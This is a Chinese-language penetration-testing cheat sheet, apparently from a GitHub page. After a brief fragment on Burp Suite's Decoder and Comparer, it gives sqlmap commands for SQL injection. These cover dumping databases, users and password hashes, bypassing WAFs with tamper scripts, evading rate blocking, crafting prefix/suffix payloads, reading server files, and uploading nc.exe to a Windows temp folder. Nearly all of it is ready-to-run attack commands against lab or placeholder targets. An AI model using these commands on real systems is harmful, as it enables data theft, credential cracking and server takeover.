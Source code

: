 （7）Decoder——是一个进行手动执行或对应用程序数据者智能解码编码的工具。

（8）Comparer——是一个实用的工具，通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。

# sqlmap
备注：(注入的时候最好把设定-v 3 -l 3)

1. 检索当前数据库和当前用户

   	sqlmap -u target.com --cookie="1231" -b --current-db -current-user

   -b:获取DBMS banner 还有--os用于探测数据库服务器系统 --is-dba 判断当前用户是否为管理 --users 列出所有管理用户 --passwords列出并破解数据库用户的hash --privileges 列出数据库管理员权限
2. 挖取数据库 --dbs（－D） 挖取表 --tables（－T） 挖取列 --columns（—C） 挖掘详细内容 --dump
3. 读文件 -r test.txt 这里加载HTTP请求 加载文本为-m
4. 载入过滤插件  --tamper（这个一般用于绕过waf） 这个具体参照：[http://drops.wooyun.org/tools/4760](http://drops.wooyun.org/tools/4760) 加载多个可用逗号隔开即可
   ​	
   	python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
5. 伪静态注入  有些web服务器进行了url rewrite或者网站是伪静态的，无法直接提供测试参数，这样子可以使用*来代替要测试的参数。
6. 请求延迟  在注入过程中请求太频繁的话可能会被防火墙拦截，这时候--delay参数就起作用了。可以设定两次HTTP请求间的延时。有的web程序会在多次错误访问后屏蔽所有请求，这样就导致之后所有的测试无法进行，绕过这个策略可以使用--safe-url，每隔一段时间去访问一个正常的页面。
7. post注入  有两种方法来进行post注入，一种是使用--data参数，将post的key和value用类似GET方式来提交。二是使用-r参数，sqlmap读取用户抓到的POST请求包，来进行POST注入检测。

   	python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --banner --dbs --users
8. 拆分字符  --param-del

   	python sqlmap.py -u "http://www.target.com/vuln.php" --data="query=foobar;id=1" --param-del=";" -f --banner --dbs --users

9. 避免过多的错误请求被屏蔽
   1. --safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
   2. --safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。

10. 有时候需要在一些环境的前面或者后面加一些字符，保证payload正常运行，就需要参数--prefix,--suffix
   例如，代码中是这样调用数据库的：
   ​	
   	$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; 
   这时你就需要--prefix和--suffix参数了：
   	python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
   这样执行的SQL语句变成：

   	$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
11. 有时候--tables 无法获取到数据库表时，可用使用--common-tables爆破表名 同理 --common-columns 你懂的
12. 如果当前用户有权读取文件，可用使用--file-read


   	python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \--file-read "C:/example.exe" -v 1

   同理 文件上传到服务器操作 --file-write,--file-dest

   	python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
